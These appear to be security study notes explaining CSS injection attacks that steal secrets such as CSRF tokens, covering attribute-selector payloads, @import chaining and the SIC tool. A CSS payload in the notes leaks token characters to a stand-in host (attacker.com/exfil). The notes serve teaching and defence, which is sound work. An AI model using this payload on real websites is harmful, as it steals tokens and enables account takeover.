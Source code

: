 **sources**
1) https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b
2) https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf

### CSS Injection Secret Hijacking
It is possible to use a `<style>` attribute to steal data off a webpage without any reloading/redirects at all for the user.

This has a number of advantages including if HTML can be injected but Javascript cannot.

In **source 1**, due to DomPurify, the researcher was unable to inject any Javascript but was able to perform some HTML injection.

They were able to use Attribute selectors to set background images depending on the character of the secret they were trying to get back.

```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
```
This would  then call back to their server on each character, leaking the secret one by one.

In order for this technique to be feasible, 3 prerequisites must be met:
1) Must be able to send long payloads for injection as this takes a lot of text to complete
2) Must be able to frame the page to trigger css re-evaluation (ensure new payload is loaded by client)
3) No CSP blocking external images

In **source 1** they both 1 and 2 were not met and as such needed rework.

### @import
`@import` is used to import code from other source files in CSS. Many people are aware of `<link href="..." rel="stylesheet">` but within CSS directly there is a way to perform a similar inclusion using an `at-rule` called `@import`.

In most cases, it will perform direct in place swap of the fetches styles into the current stylesheet which allows a developer to pull in external styles to override any directives defined in the external resource below the @import line.

One weird side effect of some browsers (especially chrome) is that the external resource can be fetched in parallel to the browser also processing the stylesheet. This has a practical use in exploitation.

Imagine we have the following webpage:
```css
@import url(http://laggysite.com/base.css);
* { color: red; }
```

Chrome will perform 3 steps:
1) Request the .css files from the import
2) Evaluate remaining directives (colour:red)
3) When base.css returns, substitute the response into the webpage and reevaluate the stylesheet.

Now they no longer needed to open a frame to re-evaluate the CSS as they could use this browser quirk.

The only requirement to pull off leaking secrets via CSS is that they MUST have control at the start of a style tag, which is true as they had HTML injection

### Performing the attack
In order to do this, we need to create multiple @import rules and let the server keep all the connections open then they'll use a standard CSS injection token payload to pull out the first token from the target attribute. After the server recieves the token from the background style, they can generate the next token payload and respond to the next pending @import rule with the new payload.

This can be achieved in a single @import rule containing many other imports.

Below is a diagram showing the flow of this attack.

![](assets/css-secret-hijacking-71e1043e.png)

### SIC
A tool was created called Sequential Import Chaining which can be seen used here: https://www.youtube.com/watch?v=ZiLf65iTcaM

In the video, we see vanilla HTML injection being used with SIC to exfil an HREF on the page with a single page load. Of course, this could very easily be used to pull CSRF token from the DOM using the value attribute.

The code for SIC is here: https://github.com/d0nutptr/sic
